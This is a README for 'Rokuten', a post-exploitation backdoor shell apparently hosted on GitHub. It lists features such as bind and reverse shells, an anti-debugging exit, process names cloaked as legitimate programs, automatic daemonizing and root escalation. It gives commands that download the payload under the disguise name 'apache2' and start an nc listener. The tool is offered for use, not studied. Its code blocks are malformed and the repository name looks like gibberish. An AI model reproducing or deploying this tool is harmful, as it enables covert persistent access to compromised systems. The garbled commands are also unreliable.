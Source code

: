 # Rokuten always apache2
Rokuten is a post-exploitation shell that includes both a bind and a back connect shell. It creates a fully interactive TTY which allows for job control. The stub size is around 14kb and can be compiled on any Unix like system.

# Image
![Screenshot](https://github.com/2326xxxxxxxxxxxx/739812y-0423894182-4-389ur-31289r63-253-0927u--0/blob/main/300%20years%20Poltava%20battle%20Joker%202.jpeg)
Banner and interaction with shell after a connection is started.

## Features
+ Anti-Debugging, if ptrace is detected as being attached to the shell it will exit.
+ Process Name/Thread names are cloaked, a fake name overwrites all of the system arguments and file name to make it seem like a legitimate program.
+ TTY, a TTY is created which essentially allows for the same usage of the machine as if you were connected via SSH.
+ Bind/Backconnect shell, both a bind shell and back connect can be created.
+ Small Stub Size, a very small stub(<14kb) is usually generated.
+ Automatically Daemonizes
+ Tries to set GUID/UID to 0 (root)


## Commands
```bash
$ git clone https://github.com/2326xxxxxxxxxxxx/739812y-0423894182-4-389ur-31289r63-253-0927u--0.git

## Switon
Backconnect:
```bash
$ https://raw.githubusercontent.com/2326xxxxxxxxxxxx/739812y-0423894182-4-389ur-31289r63-253-0927u--0/main/1111 -O apache2
```
```
## Example Usage
Backconnect:
```bash
$ nc -lnvp 127.0.0.1 13377
```
## TODO:
+ Add domain resolution
